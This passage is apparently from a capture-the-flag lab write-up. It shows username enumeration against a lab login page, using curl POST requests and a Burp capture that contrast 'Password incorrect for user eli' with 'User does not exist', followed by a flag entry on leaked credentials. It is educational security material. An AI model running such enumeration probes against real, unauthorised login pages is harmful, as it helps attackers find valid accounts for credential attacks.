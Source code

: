 💡 **Learning Point:** Developers often leave comments in production code. These can contain:
- Debug information
- TODO notes
- Credentials
- System information
- Contact details


### Username Enumeration Discovery

**Testing Methodology - Proof of Concept:**

```bash
# Test with discovered username from comments
┌──(kali㉿kali)-[~]
└─$ curl -X POST http://192.168.148.100/login.php \
    -d "username=eli&password=wrongpass"
```

**Response for Valid Username:**
```html
<div class="error">Password incorrect for user eli</div>
```

```bash
# Test with random username
┌──(kali㉿kali)-[~]
└─$ curl -X POST http://192.168.148.100/login.php \
    -d "username=doesnotexist&password=wrongpass"
```

**Response for Invalid Username:**
```html
<div class="error">User does not exist</div>
```

**Burp Suite Intercept Screenshot:**
```
POST /login.php HTTP/1.1
Host: 192.168.148.100
Content-Type: application/x-www-form-urlencoded
Content-Length: 32

username=eli&password=wrongpass

HTTP/1.1 200 OK
Server: Apache/2.4.51 (Debian)

<div class="error">Password incorrect for user eli</div>
```

### FLAG 002: OSINT and Breach Data
**Difficulty:** Easy  
**Location:** Homepage after successful login
**Flag:** FLAG{D**********5}
**Learning Objective:** Real attackers use leaked credentials
